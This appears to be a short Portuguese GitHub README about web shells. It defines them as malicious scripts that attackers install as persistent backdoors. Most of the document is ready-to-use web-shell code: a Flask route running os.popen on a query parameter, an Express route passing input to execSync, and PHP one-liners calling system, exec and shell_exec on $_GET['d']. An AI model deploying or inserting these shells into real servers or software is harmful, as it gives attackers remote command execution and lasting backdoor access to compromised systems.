

[](https://git.io/typing-svg)
> São scripts maliciosos que permitem que agentes de ameaças comprometam servidores da Web e lancem ataques adicionais. Os agentes de ameaças primeiro penetram em um sistema ou rede e, em seguida, instalam um shell da web. Deste ponto em diante, eles o usam como um backdoor permanente para os aplicativos da web de destino e quaisquer sistemas conectados.





# Python
```python
import os
from flask import Flask,request

app = Flask(__name__)
   
@app.route('/codigo')
def web():
    return os.popen(request.args.get('d')).read()

if __name__ == "__main__":
	app.run()
```

# NodeJs

```javascript
const { execSync } = require("child_process")
const express = require("express")

const app = express();

function comando(shell){
    return execSync(shell)
}

app.get("/web/:commando",(req, res) =>{
    var result = comando(req.params.commando)
    res.send(`Seu resultado: ${result}`);
});

app.listen(8000,() => console.log("..."));

```
# PHP
```php
<?php system($_GET['d']);?>
```
```php
<?php exec($_GET['d']);?>
```
```php
<?php shell_exec($_GET['d']);?>
```


